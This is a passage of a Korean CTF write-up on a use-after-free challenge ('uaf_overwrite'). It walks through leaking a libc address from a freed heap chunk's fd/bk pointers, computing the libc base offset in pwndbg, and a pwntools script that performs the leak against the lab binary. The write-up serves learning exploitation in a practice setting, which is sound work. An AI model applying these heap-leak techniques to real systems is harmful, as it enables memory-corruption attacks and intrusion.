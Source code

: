 ![image](https://github.com/user-attachments/assets/981c6ae8-2b5e-46ae-8383-509fe7119c73)

이렇게 1280으로 할당한 각 공간들의 상태를 확인해보면,   

<br>

![image](https://github.com/user-attachments/assets/f0f82be8-f567-4dac-a747-d93a023084d6)

그리고 해당 `fd`와 `bk` 주소인 `0x7ffff7dcdca0`을 살펴보면,    

`/lib/x86_64-linux-gnu/libc-2.27.so`로 `libc` 파일에 들어있는 것을 알 수 있다.  

<br>

![image](https://github.com/user-attachments/assets/758ba2e1-2b96-46c4-9ce2-9dd5e06cea51)


이곳에서 `libc`가 매핑된 주소를 찾아준 뒤 빼주면 베이스 주소를 알아낼 수 있다.    

- `0x7ffff79e2000     0x7ffff7bc9000 r-xp   1e7000      0 /lib/x86_64-linux-gnu/libc-2.27.so`
- 주소: `0x7ffff79e2000`  

```bash
pwndbg> p/x 0x7ffff7dcdca0 - 0x7ffff79e2000
$1 = 0x3ebca0
```

이런 식으로 베이스 주소의 오프셋을 구했다.   


<br>


![image](https://github.com/user-attachments/assets/054ecbec-7ac7-4a49-ab6a-fdeb583e96b8)

그리고  해제한 청크에 다시 Z 단일 문자열을 넣었더니    
0x7ffff7dcdca0 → 0x7ffff7dc0a5a 로 변했다.    

그럼 여기까지 했을 때, `fd`를 가져올 수 있는 코드를 작성해보자.   

<br> 

**익스플로잇 코드** (`fd` 가져오기)   

```python
from pwn import *

p=process('./uaf_overwrite')
libc=ELF('./libc-2.27.so')

p.sendlineafter(b'> ', b'3')
p.sendlineafter(b'Size: ', b'1280')
p.sendlineafter(b'Data: ', b'AAAA')
p.sendlineafter(b'idx: ', b'9')

p.sendlineafter(b'> ', b'3')
p.sendlineafter(b'Size: ', b'1280')
p.sendlineafter(b'Data: ', b'AAAA')
p.sendlineafter(b'idx: ', b'0')

p.sendlineafter(b'> ', b'3')
p.sendlineafter(b'Size: ', b'1280')
p.sendafter(b'Data: ', b'B')

p.recvuntil(b'Data: ')
libc_leak = u64(p.recvline()[:-1].ljust(8, b'\x00'))

# libc_offset= 0x3ebca0
libc_base = libc_leak - 0x3ebc42
print(hex(libc_base))
```
